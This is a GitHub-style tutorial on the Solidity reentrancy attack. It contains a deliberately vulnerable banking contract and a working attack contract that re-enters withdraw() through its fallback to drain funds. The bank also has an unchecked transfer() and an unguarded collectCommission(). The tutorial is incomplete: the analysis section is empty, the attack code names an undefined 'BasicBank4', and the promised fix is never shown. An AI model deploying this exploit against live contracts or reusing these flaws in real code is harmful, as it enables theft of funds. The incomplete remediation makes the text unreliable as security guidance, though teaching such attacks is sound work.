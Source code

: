 # Reentracy Attack
## 🗺️ Overview 
The Reentrancy attack is one of the most destructive attacks in the Solidity smart contract. A reentrancy attack occurs when a function makes an external call to another untrusted contract. Then the untrusted contract makes a recursive call back to the original function in an attempt to drain funds.



When the contract fails to update its state before sending funds, the attacker can continuously call the withdraw function to drain the contract’s funds. A famous real-world Reentrancy attack is the DAO attack which caused a loss of 60 million US dollars.

## How Does Reentracy Attack Work?
<img src='https://github.com/wasny0ps/Reentracy/blob/main/img/reentracy.png'>

## 🎬 Reentrancy Attack Scenario
1> The vulnerable smart contract has 10 eth.

2> An attacker stores 1 eth using the deposit function.

3> An attacker calls the withdraw function and points to a malicious contract as a recipient.

4> Now withdraw function will verify if it can be executed:

Does the attacker have 1 eth on their balance? Yes – because of their deposit.

Transfer 1 eth to a malicious contract. (Note: attacker balance has NOT been updated yet)

Fallback function on received eth calls withdraw function again.

4>Now withdraw function will verify if it can be executed:

Does the attacker have 1 eth on their balance? Yes – because the balance has not been updated.

Transfer 1 eth to a malicious contract and again until the attacker will drain all the funds stored on the contract.
## 📄 Example Of Vulnereable Contract
This contract is designed to provide basic web3 banking services and includes vulnerabilities that are frequently encountered in other smart contracts.
```
//SPDX-License-Identifier: MIT
pragma solidity 0.7.0;

contract BasicBank {

    mapping (address => uint) private userFunds;
    address private commissionCollector;
    uint private collectedComission = 0;

    constructor() {
        commissionCollector = msg.sender;
    }
    
    modifier onlyCommissionCollector {
        require(msg.sender == commissionCollector);
        _;
    }

    function deposit() public payable {
        require(msg.value >= 1 ether);
        userFunds[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) external payable {
        require(getBalance(msg.sender) >= _amount);
        msg.sender.call{value: _amount}("");
        userFunds[msg.sender] -= _amount;
        userFunds[commissionCollector] += _amount/100;
    }   

    function getBalance(address _user) public view returns(uint) {
        return userFunds[_user];
    }

    function getCommissionCollector() public view returns(address) {
        return commissionCollector;
    }

    function transfer(address _userToSend, uint _amount) external{
        userFunds[_userToSend] += _amount;
        userFunds[msg.sender] -= _amount;
    }

    function setCommissionCollector(address _newCommissionCollector) external onlyCommissionCollector{
        commissionCollector = _newCommissionCollector;
    }

    function collectCommission() external {
        userFunds[msg.sender] += collectedComission;
        collectedComission = 0;
    }
}
```
## 👨‍💻 Analyzing
## Attacking
```
//SPDX-License-Identifier: MIT
pragma solidity 0.7.0;

import './BasicBank.sol';

contract Attack{
    BasicBank public target;
    constructor(address payable _target){
        target = BasicBank4(_target);
    }
    function attack() external payable{
        require(msg.value >= 1e18, "At least 1 ether");
        target.deposit{value: 1e18}();
        target.withdraw(1e18);
    }
    fallback()external payable{
        if(address(target).balance >= 1e18){
            target.withdraw(1e18);
        }
    }
}
```
## How To Prevent Reentracy Attack?

As I mentioned in the analysis part, the order of transactions in the ```withdraw()``` function is constructed with a wrong point of view. Therefore, if the transaction order is made like this wasy, the reentracy vulnerability will die out.

**_by wasny0ps_**
